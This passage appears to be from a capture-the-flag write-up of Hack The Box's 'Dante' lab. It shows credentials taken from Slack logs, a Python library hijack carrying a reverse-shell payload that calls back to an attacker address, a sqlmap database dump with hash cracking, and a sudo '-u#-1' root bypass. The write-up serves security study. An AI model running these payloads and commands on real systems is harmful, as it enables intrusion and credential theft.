logrotate 3.14.0                                                                             

    Default mail command:       /usr/bin/mail
    Default compress command:   /bin/gzip
    Default uncompress command: /bin/gunzip
    Default compress extension: .gz
    Default state file path:    /var/lib/logrotate/status
    ACL support:                yes
    SELinux support:            yes
Writable: /home/margaret/.local/share/gvfs-metadata/trash:-4eb6692f.log
Writable: /home/margaret/.local/share/gvfs-metadata/root-89f8bda4.log
Writable: /home/margaret/.local/share/gvfs-metadata/home-7b029450.log
Writable: /home/margaret/.local/share/xorg/Xorg.1.log
Writable: /home/margaret/.local/share/xorg/Xorg.0.log
Writable: /home/margaret/.config/Slack/Local Storage/leveldb/000003.log
Writable: /home/margaret/.config/Slack/Session Storage/000003.log
Writable: /home/margaret/.config/Slack/logs/browser.log
Writable: /home/margaret/.config/Slack/logs/webapp-console.log    


╔══════════╣ Running processes (cleaned)
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes    
<SNIP>
frank       2258  0.3  3.8 38986396 153512 ?     SLl  Jan03   3:41  _ /snap/slack/65/usr/lib/slack/slack --no-sandbox --executed-from=/home/frank --pid=1772 --enable-crashpad
frank       2263  0.0  1.0 33971072 42180 ?      S    Jan03   0:00  |   _ /snap/slack/65/usr/lib/slack/slack --type=zygote --no-zygote-sandbox --no-sandbox --enable-crashpad --enable-crashpad
frank       2295  0.0  2.2 34205812 89688 ?      Sl   Jan03   0:34  |   |   _ /snap/slack/65/usr/lib/slack/slack --type=gpu-process --no-sandbox --enable-logging --enable-crashpad --crashpad-handler-pid=2279 --enable-crash-reporter=393633fc-1b54-4764-83d7-7b4f5b945123,no_channel --user-data-dir=/home/frank/snap/slack/65/.config/Slack --gpu-preferences=WAAAAAAAAAAgAAAIAAAAAAAAAAAAAAAAAABgAAAAAAA4AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACAAAAAAAAAAIAAAAAAAAAABAAAAAAAAAAgAAAAAAAAACAAAAAAAAAAIAAAAAAAAAA== --enable-logging --log-file=/home/frank/snap/slack/65/.config/Slack/logs/default/electron_debug.log --shared-files --field-trial-handle=0,i,12910388907804966541,452706500207845067,131072 --disable-features=AllowAggressiveThrottlingWithWebSocket,CalculateNativeWinOcclusion,HardwareMediaKeyHandling,IntensiveWakeUpThrottling,LogJsConsoleMessages,RequestInitiatorSiteLockEnfocement,SpareRendererForSitePerProcess,WebRtcHideLocalIpsWithMdns,WinRetrieveSuggestionsOnlyOnDemand
<SNIP>


╔══════════╣ Last time logon each user
Username         Port     From             Latest                           
frank            pts/2    172.16.1.20      Sat Jan  4 05:25:50 -0800 2025
margaret         pts/7    172.16.1.100     Sat Jan  4 12:01:23 -0800 2025


╔══════════╣ Searching root files in home dirs (limit 30)
/home/                                                                                       
/home/frank/.bash_history
/home/frank/__pycache__
/home/frank/__pycache__/call.cpython-38.pyc
/home/frank/__pycache__/urllib.cpython-38.pyc
/home/frank/apache_restart.py
/home/margaret/.lhistory
/root/
/var/www
```

There's another user `frank` seems to be the next target.
Also, it seems that I can use `PwnKit` again.
I can see that `/home/margaret/.config/Slack` directory exists which also seems to be related with the Slack.

##### Privilege Escalation to `frank` on NIX02

I found zip file related to `slack` in `/home/frank/downloads`.
I moved it to kali, and unzipped it.

```bash
┌──(kali㉿kali)-[~/htb/NIX02]
└─$ tree                                              
.
├── channels.json
├── integration_logs.json
├── project
│   └── 2020-05-18.json
├── secure
│   └── 2020-05-18.json
├── slack.zip
├── team
│   └── 2020-05-18.json
├── users.json
└── welcome
    └── 2020-05-18.json

5 directories, 8 files
```

I read all files, and found useful information from `secure/2020-05-18.json`.

The file is formatted in `json` and looks like the following :

```bash
┌──(kali㉿kali)-[~/htb/NIX02/secure]
└─$ cat 2020-05-18.json 
[
    {
        "type": "message",
        "subtype": "channel_join",
        "ts": "1589794001.000200",
        "user": "U013CT40QHM",
        "text": "<@U013CT40QHM> has joined the channel"
    },
    {
        "type": "message",
        "subtype": "channel_purpose",
        "ts": "1589794001.000300",
        "user": "U013CT40QHM",
        "text": "<@U013CT40QHM> set the channel purpose: discuss network security",
        "purpose": "discuss network security"
    },
```

I focused on "text" field.

```text
Hi Margaret, I created the channel so we can discuss the network security - in private!

Great idea, Frank

We need to migrate the Slack workspace to the new Ubuntu images, can you do this today?

Sure, but I need my password for the Ubuntu images, I haven't been given it yet

Ahh sorry about that - its STARS5678FORTUNE401

Thanks very much, I'll get on that now.

No problem at all. I'll make this channel private from now on - we cant risk another breach

Please get rid of my admin privs on the Ubuntu box and go ahead and make yourself an admin account

Thanks, will do

I also set you a new password on the Ubuntu box - 69F15HST1CX, same username
```

From this chat, I can get the following :
- The password for `frank` is `STARS5678FORTUNE401`.
- `frank`'s password for another linux machine is `69F15HST1CX`.

However, I failed with both passwords for now.
Maybe Slack is encrypting sensitive data.

Given the chat is between Margaret and Frank, I guessed that I can also see the same chat from margaret's side.
I additionally read files in `/home/margaret/.config/Slack` directory.
And I found the same chat with plaintext password this time.

```perl
    {
        "client_msg_id": "386f950e-2c8f-4d02-93de-5ef92bf6172b",
        "type": "message",
        "text": "I also set you a new password on the Ubuntu box - TractorHeadtorchDeskmat, same username",
        "user": "U014025GL3W",
        "ts": "1589806690.005900",
        "team": "T013LTDB554",
        "user_team": "T013LTDB554",
        "source_team": "T013LTDB554",
        "user_profile": {
            "avatar_hash": "g368549a1713",
            "image_72": "https:\/\/secure.gravatar.com\/avatar\/368549a1713abb8d1a5ec871da25b0ce.jpg?s=72&d=https%3A%2F%2Fa.slack-edge.com%2Fdf10d%2Fimg%2Favatars%2Fava_0021-72.png",
            "first_name": "",
            "real_name": "Margaret",
            "display_name": "Margaret",
            "team": "T013LTDB554",
            "name": "thisissecretright",
            "is_restricted": false,
            "is_ultra_restricted": false
        },
```

Here I found a password for `frank` : `TractorHeadtorchDeskmat`
Let's login as `frank` through `ssh` with the found credential.

```bash
┌──(kali㉿kali)-[~/htb/NIX02]
└─$ ssh frank@172.16.1.10
frank@172.16.1.10's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.15.0-46-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

26 updates can be applied immediately.
3 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Your Hardware Enablement Stack (HWE) is supported until April 2025.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

-bash-5.0$ id
uid=1000(frank) gid=1000(frank) groups=1000(frank)
-bash-5.0$ whoami
frank
```

I got a shell as `frank`!

##### Privilege Escalation to `root` on NIX02

```bash
bash-5.0$ ls
apache_restart.py  Documents  linpeas.sh  Pictures  Public       snap       Videos
Desktop            Downloads  Music       pspy64    __pycache__  Templates

bash-5.0$ ls -al apache_restart.py
-r--r--r-- 1 root root 198 May 19  2020 apache_restart.py

bash-5.0$ cat apache_restart.py
import call
import urllib
url = urllib.urlopen(localhost)
page= url.getcode()
if page ==200:
        print ("We're all good!")
else:
        print("We're failing!")
        call(["systemctl start apache2"], shell=True)
```

On `frank`'s home directory, there is a python file named `apache_restart.py`.
This imports several libraries : `call`, `urllib`

I cannot write `apache_restart.py` file, but I can make `urllib.py` file since the python code try to find library from the current directory.

First, I need to check if `apache_restart.py` is run by root regularly.

```bash
bash-5.0$ ./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

<SNIP>
2025/01/05 05:41:01 CMD: UID=0     PID=207998 | /usr/sbin/CRON -f 
2025/01/05 05:41:01 CMD: UID=0     PID=207999 | /usr/sbin/CRON -f 
2025/01/05 05:41:01 CMD: UID=0     PID=208000 | /bin/sh -c python3 /home/frank/apache_restart.py; sleep 1; rm /home/frank/call.py; sleep 1; rm /home/frank/urllib.py                      
2025/01/05 05:41:01 CMD: UID=0     PID=208002 | sleep 1 
2025/01/05 05:41:02 CMD: UID=0     PID=208003 | rm /home/frank/call.py 
2025/01/05 05:41:02 CMD: UID=0     PID=208004 | 
2025/01/05 05:41:03 CMD: UID=0     PID=208005 | rm /home/frank/urllib.py 
<SNIP>
```

Bingo! It tries to run `apache_restart.py` file.
It also deletes `call.py` and `urllib.py` file from home directory.

Here's `urllib.py` I created :

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",9000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")
```

After creating the file, I waited on listener.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.110.3] 42497
# id
id
uid=0(root) gid=0(root) groups=0(root)
# whoami
whoami
root
```

I got a `root` shell!


### 172.16.1.12(NIX04)

##### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nmap -Pn -sCV 172.16.1.12    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-05 08:57 EST
Nmap scan report for 172.16.1.12
Host is up (0.13s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp?
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (ProFTPD) [::ffff:172.16.1.12]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp   open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 22:cc:a3:e8:7d:d5:65:6d:9d:ea:17:d1:d9:1b:32:cb (RSA)
|   256 04:fb:b6:1a:db:95:46:b7:22:13:61:24:76:80:1e:b8 (ECDSA)
|_  256 ae:c4:55:67:6e:be:ba:65:54:a3:c3:fc:08:29:24:0e (ED25519)
80/tcp   open  http     Apache httpd 2.4.43 ((Unix) OpenSSL/1.1.1g PHP/7.4.7 mod_perl/2.0.11 Perl/v5.30.3)
| http-title: Welcome to XAMPP
|_Requested resource was http://172.16.1.12/dashboard/
|_http-server-header: Apache/2.4.43 (Unix) OpenSSL/1.1.1g PHP/7.4.7 mod_perl/2.0.11 Perl/v5.30.3
443/tcp  open  ssl/http Apache httpd 2.4.43 ((Unix) OpenSSL/1.1.1g PHP/7.4.7 mod_perl/2.0.11 Perl/v5.30.3)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=Apache Friends/stateOrProvinceName=Berlin/countryName=DE
| Not valid before: 2004-10-01T09:10:30
|_Not valid after:  2010-09-30T09:10:30
| http-title: Welcome to XAMPP
|_Requested resource was https://172.16.1.12/dashboard/
|_http-server-header: Apache/2.4.43 (Unix) OpenSSL/1.1.1g PHP/7.4.7 mod_perl/2.0.11 Perl/v5.30.3
| tls-alpn: 
|_  http/1.1
3306/tcp open  mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, HTTPOptions, LPDString, NULL, TLSSessionReq, WMSRequest: 
|_    Host '172.16.1.100' is not allowed to connect to this MariaDB server
```

- ftp(21), ssh(22) are open..
- http(80), https(443) are open.
- mysql(3306) is open. So it might be led to SQL Injection.

##### http(80)


It returns a default XAMPP page.
Let's run `nikto`. 

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nikto -h http://172.16.1.12
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          172.16.1.12
+ Target Hostname:    172.16.1.12
+ Target Port:        80
+ Start Time:         2025-01-05 12:39:21 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.43 (Unix) OpenSSL/1.1.1g PHP/7.4.7 mod_perl/2.0.11 Perl/v5.30.3
+ /: Retrieved x-powered-by header: PHP/7.4.7.
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ Root page / redirects to: http://172.16.1.12/dashboard/
+ /index: Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. The following alternatives for 'index' were found: HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var, HTTP_NOT_FOUND.html.var. See: http://www.wisec.it/sectou.php?id=4698ebdc59d15,https://exchange.xforce.ibmcloud.com/vulnerabilities/8275
+ Perl/v5.30.3 appears to be outdated (current is at least v5.32.1).
+ PHP/7.4.7 appears to be outdated (current is at least 8.1.5), PHP 7.4.28 for the 7.4 branch.
+ OpenSSL/1.1.1g appears to be outdated (current is at least 3.0.7). OpenSSL 1.1.1s is current for the 1.x branch and will be supported until Nov 11 2023.
+ Apache/2.4.43 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: HTTP TRACE method is active which suggests the host is vulnerable to XST. See: https://owasp.org/www-community/attacks/Cross_Site_Tracing
+ /webalizer/: Directory indexing found.
+ /img/: Directory indexing found.
+ /img/: This might be interesting.
+ /icons/: Directory indexing found.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
```

Software backend(php, perl, SSL, Apache) seems to be quite outdated.

Let's also run `gobuster`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u http://172.16.1.12 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.16.1.12
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 302) [Size: 0] [--> http://172.16.1.12/dashboard/]
/blog                 (Status: 301) [Size: 232] [--> http://172.16.1.12/blog/]
/img                  (Status: 301) [Size: 231] [--> http://172.16.1.12/img/]
/dashboard            (Status: 301) [Size: 237] [--> http://172.16.1.12/dashboard/]
/phpmyadmin           (Status: 403) [Size: 1188]
/webalizer            (Status: 301) [Size: 237] [--> http://172.16.1.12/webalizer/]
```

Additional page `/blog` is found here.
Let's visit the page.


It looks like a normal looking website.

I roamed around the website, and registered as a new user.
Once I login as the created user, I can see the following page;


It returns "BLOG ADMIN" panel which is weird for just created normal user.

I was able to add a new post, so I tried to upload random png file for test and got the following error message :


It seems that we cannot upload on `/images` folder.

##### SQL Injection on NIX04

After few more minutes, I focused on the banner of the blog page.


It says this blog is built up on "Responsive Blog".
I googled it to check if there's any vulnerability with this, and found SQLi vulnerability from the following : 
https://www.exploit-db.com/exploits/48615

```shell
# Exploit Title: Responsive Online Blog 1.0 - 'id' SQL Injection
# Date: 2020-06-23
# Exploit Author: Eren Şimşek
# Vendor Homepage: https://www.sourcecodester.com/php/14194/responsive-online-blog-website-using-phpmysql.html
# Software Link: https://www.sourcecodester.com/download-code?nid=14194&title=Responsive+Online+Blog+Website+using+PHP%2FMySQL
# Version: v1.0
# Tested on: Linux - Wamp Server

>Vulnerable File
   /category.php

>Vulnerable Code

   $id=$_REQUEST['id'];
   $query="SELECT * from blog_categories where id='".$id."'";
   Id parameter enters sql query without any changes

>Proof Of Concept
   sqlmap 'http://localhost/resblog/category.php?id=1' --dbs --batch
   OR
   http://TARGET/resblog/category.php?id=1' Single Quote will cause SQL error
```

Let me test it with `sqlmap` on the following url : `http://172.16.1.12/blog/category.php?id=1`

```bash
┌──(kali㉿kali)-[~/htb/NEW]
└─$ sqlmap "http://172.16.1.12/blog/category.php?id=1" --batch --dbs

<SNIP>
available databases [7]:                                                                    
[*] blog_admin_db
[*] flag
[*] information_schema
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] test


┌──(kali㉿kali)-[~/htb/NEW]
└─$ sqlmap "http://172.16.1.12/blog/category.php?id=1" --batch -D flag -T flag --dump

<SNIP>
+------------------------------+
| flag                         |
+------------------------------+
| DANTE{wHy_y0U_n0_s3cURe?!?!} |
+------------------------------+


┌──(kali㉿kali)-[~/htb/NEW]
└─$ sqlmap "http://172.16.1.12/blog/category.php?id=1" --batch -D blog_admin_db --tables

<SNIP>
Database: blog_admin_db                                                                     
[13 tables]
+-----------------------------+
| banner_posts                |
| blog_categories             |
| blogs                       |
| editors_choice              |
| links                       |
| membership_grouppermissions |
| membership_groups           |
| membership_userpermissions  |
| membership_userrecords      |
| membership_users            |
| page_hits                   |
| titles                      |
| visitor_info                |
+-----------------------------+


┌──(kali㉿kali)-[~/htb/NEW]
└─$ sqlmap "http://172.16.1.12/blog/category.php?id=1" --batch -D blog_admin_db -T membership_users -C 'memberID,passMD5' --dump

<SNIP>
Database: blog_admin_db                                                                     
Table: membership_users
[5 entries]
+----------+------------------------------------------+
| memberID | passMD5                                  |
+----------+------------------------------------------+
| admin    | 21232f297a57a5a743894a0e4a801fc3 (admin) |
| ben      | 442179ad1de9c25593cabf625c0badb7         |
| bokchee  | 36250619fbbc61a26133ff79fdfaa48b         |
| egre55   | d6501933a2e0ea1f497b87473051417f         |
| guest    | NULL                                     |
+----------+------------------------------------------+
```

I found a flag, and MD5 hashes for the blog users.
I ran `john` to crack the hashes for the found users.

```bash
┌──(kali㉿kali)-[~/htb/NEW]
└─$ cat blog_user.hashes 
admin:21232f297a57a5a743894a0e4a801fc3
ben:442179ad1de9c25593cabf625c0badb7
egre55:d6501933a2e0ea1f497b87473051417f


┌──(kali㉿kali)-[~/htb/NEW]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-MD5 blog_user.hashes
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 3 password hashes with no different salts (Raw-MD5 [MD5 128/128 ASIMD 4x2])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
admin            (admin)     
Welcometomyblog  (ben)     
2g 0:00:00:00 DONE (2025-01-05 14:28) 2.439g/s 17491Kp/s 17491Kc/s 30314KC/s !!piglet!!..*7¡Vamos!
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

I found 2 valid credentials!
- `admin` : `admin`
- `ben` : `Welcomtomyblog`

##### Shell as `ben` on NIX04

I tried these credentials on `ssh`, and the credential for `ben` worked!

```bash
┌──(kali㉿kali)-[~/htb/NEW]
└─$ ssh ben@172.16.1.12                                          
The authenticity of host '172.16.1.12 (172.16.1.12)' can't be established.
ED25519 key fingerprint is SHA256:XeJgnh2gzqE2SPuygySuBLdxtTzyNCnaz8BQ9D0mC0U.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.16.1.12' (ED25519) to the list of known hosts.
ben@172.16.1.12's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 5.4.0-48-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

270 packages can be updated.
146 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Your Hardware Enablement Stack (HWE) is supported until April 2023.
Last login: Tue Dec  8 05:17:48 2020 from 10.100.1.2

ben@DANTE-NIX04:~$ id
uid=1000(ben) gid=1000(ben) groups=1000(ben),46(plugdev)

ben@DANTE-NIX04:~$ whoami
ben

ben@DANTE-NIX04:~$ cat flag.txt
DANTE{Pretty_Horrific_PH4IL!}
```

I got a `ben`'s shell!

##### Enumeration

First, let's roam around the `ben`s home directory.
I found `sudo` installation file is downloaded in `Downloads` folder.

```bash
ben@DANTE-NIX04:~/Downloads$ ls -al
total 3228
drwxr-xr-x  3 ben ben    4096 Apr 14  2021 .
drwxr-xr-x 16 ben ben    4096 Jan  5 19:28 ..
drwxr-xr-x 11 ben ben    4096 Apr 14  2021 sudo-1.8.27
-rw-rw-r--  1 ben ben 3293178 Jun 26  2020 sudo-1.8.27.tar.gz
```

The version 1.8.27 looks quite outdated compare to current kali's sudo version : 1.9.15p5
I googled it to find if there's any vulnerability and found t he following :
https://www.exploit-db.com/exploits/47502

##### Privilege Escalation to `root` on NIX04

Let's check what commands are available with `sudo` command.

```bash
ben@DANTE-NIX04:~/Downloads$ sudo -l
Password: 
Matching Defaults entries for ben on DANTE-NIX04:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User ben may run the following commands on DANTE-NIX04:
    (ALL, !root) /bin/bash
```

It says the user `ben` can use `sudo` command towards any user except `root`.
However, the exploit-db says that there's a way to bypass this : using `-u#-1` command.

```bash
ben@DANTE-NIX04:~/Downloads$ sudo -u#-1 /bin/bash
root@DANTE-NIX04:/home/ben/Downloads# id
uid=0(root) gid=1000(ben) groups=1000(ben)

root@DANTE-NIX04:/home/ben/Downloads# whoami
root

root@DANTE-NIX04:/root# cat flag.txt
DANTE{sudo_M4k3_me_@_Sandwich}
```

I got a `root` shell now!


### 172.16.1.13(WS01)

##### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb/NEW]
└─$ nmap -Pn -sCV 172.16.1.13
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-05 23:29 EST
Nmap scan report for 172.16.1.13
Host is up (0.16s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.7)
| http-title: Welcome to XAMPP
|_Requested resource was http://172.16.1.13/dashboard/
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.7
443/tcp open  ssl/http      Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.7)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.7
|_ssl-date: TLS randomness does not represent time
| http-title: Welcome to XAMPP
|_Requested resource was https://172.16.1.13/dashboard/
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
445/tcp open  microsoft-ds?

Host script results:
|_clock-skew: 59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-01-06T05:30:13
|_  start_date: N/A
|_nbstat: NetBIOS name: DANTE-WS01, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:94:91:85 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 76.19 seconds
```

Relatively only a few ports are open : http(80), https(443), smb(445)

##### smb(445)

```bash
┌──(kali㉿kali)-[~/htb/WS01]
└─$ smbclient -L 172.16.1.13                 
Password for [WORKGROUP\kali]:
session setup failed: NT_STATUS_ACCESS_DENIED
```

Nothing else to do for now without valid credential.
I tested all pre-found credentials, but none of them worked.

##### http(80)

